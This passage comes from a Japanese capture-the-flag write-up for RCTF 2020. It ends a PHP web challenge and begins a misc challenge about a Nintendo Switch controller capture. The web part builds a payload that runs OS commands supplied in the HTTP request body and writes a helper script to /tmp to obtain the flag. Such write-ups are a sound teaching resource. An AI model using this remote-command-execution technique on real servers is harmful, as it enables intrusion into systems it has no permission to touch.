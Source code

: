 ```
Solve the easy challenge first
(((((-721103)+(-555385))+(-858780))+(951742))+(19))
input your answer: calculate error!
input your answer: calculate error! 
```

標準出力から計算式を得て、標準入力からその答えを入力する必要があるようです。

実行させる OS コマンドを変えるたびにいちいちエンコードさせるのは面倒ですから、生成するペイロードを `$payload = '(' . encode($table, 'system') . ')((' . encode($table, 'file_get_contents') . ')(' . encode($table, 'php://input') . '))';` のように変えて、HTTP リクエストボディとして与えた OS コマンドを実行させるように変えましょう。

`echo "<?php \$h=proc_open(\"/readflag\",[[\"pipe\",\"r\"],[\"pipe\",\"w\"],[\"pipe\",\"w\"]],\$p);fgets(\$p[1]);\$r=fgets(\$p[1]);echo \$r;fwrite(\$p[0],eval(\"return \".\$r.\";\").chr(0xa));\$r=fgets(\$p[1]);echo \$r;echo fgets(\$p[1]);echo fgets(\$p[2]);" > /tmp/poyoyon.php` という OS コマンドを実行させて、まず `/tmp/poyoyon.php` に `/readflag` が出力する計算式を解いてくれる PHP コードを書き込みます。

`php /tmp/poyoyon.php` で実行すると、フラグが得られました。

```
RCTF{NO60dy_kn0w5_PhP_6eTter_th4n_y0u}
```

## [Misc 434] Calc (26 solves)
> bought a Switch PRO Controller!! It’s really cool!
> 
> PS: Please replace ‘-’ to ‘_’ when you submit flag.
> 
> 添付ファイル: capture.pcapng, screenrecord.mp4

`screenrecord.mp4` を適当なプレイヤーで再生してみると、次の画像のようにフラグが入力されている様子が記録されていました。Nintendo Switch の Pro コントローラでソフトウェアキーボードを使って入力していますが、肝心の入力先は編集によって隠されてしまっています。

![Nintendo Switch のプロコンでフラグを入力しているらしい](../images/2020-06-01_switch.png)
